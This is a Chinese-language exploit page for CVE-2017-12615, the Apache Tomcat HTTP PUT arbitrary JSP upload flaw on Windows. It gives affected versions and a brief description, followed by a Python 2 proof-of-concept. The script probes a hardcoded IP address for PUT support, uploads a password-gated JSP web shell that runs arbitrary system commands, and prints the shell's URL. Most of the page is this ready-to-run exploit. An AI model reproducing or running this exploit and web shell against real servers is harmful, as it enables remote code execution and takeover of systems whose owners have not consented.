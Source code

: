 # CVE-2017-12615  #
## 受影响版本 ##
Apache Tomcat 7.0.0 - 7.0.81
## 平台 ##
windows 、linux等多平台
## 测试系统 ##
windows
## 类型 ##
远程
## 描述 ##
当 Tomcat运行在Windows操作系统时，且启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限
## POC ##
<pre class="prettyprit lang-javascript">
import httplib  
import sys  
import time  
body = &#x27;&#x27;&#x27;&#x27;&#x27;&lt;%@ page language=&quot;java&quot; import=&quot;java.util.*,java.io.*&quot; pageEncoding=&quot;UTF-8&quot;%&gt;&lt;%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp 
+&quot;\\n&quot;);}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%&gt;&lt;%if(&quot;023&quot;.equals(request.getParameter(&quot;pwd&quot;))&amp;&amp;!&quot;&quot;.equals(request.getParameter(&quot;cmd&quot;))){out.println(&quot;&lt;pre&gt;&quot;+excuteCmd(request.getParameter(&quot;cmd&quot;))+&quot;&lt;/pre&gt;&quot;);}else{out.println(&quot;:-)&quot;);}%&gt;&#x27;&#x27;&#x27;  
try:  
    conn = httplib.HTTPConnection(&#x27;218.203.123.79&#x27;)  
    conn.request(method=&#x27;OPTIONS&#x27;, url=&#x27;/ffffzz&#x27;)  
    headers = dict(conn.getresponse().getheaders())  
    if &#x27;allow&#x27; in headers and headers[&#x27;allow&#x27;].find(&#x27;PUT&#x27;) &gt; 0 :  
        conn.close()  
        conn = httplib.HTTPConnection(&#x27;218.203.123.79&#x27;)  
        url = &quot;/&quot; + str(int(time.time()))+&#x27;.jsp/&#x27;  
        #url = &quot;/&quot; + str(int(time.time()))+&#x27;.jsp::$DATA&#x27;  
        conn.request( method=&#x27;PUT&#x27;, url= url, body=body)  
        res = conn.getresponse()  
        if res.status  == 201 :  
            #print &#x27;shell:&#x27;, &#x27;http://&#x27; + sys.argv[1] + url[:-7]  
            print &#x27;shell:&#x27;, &#x27;http://218.203.123.79&#x27; + url[:-1]  
        elif res.status == 204 :  
            print &#x27;file exists&#x27;  
        else:  
            print &#x27;error&#x27;  
        conn.close()  
    else:  
        print &#x27;Server not vulnerable&#x27;  
          
except Exception,e:  
    print &#x27;Error:&#x27;, e  
</pre>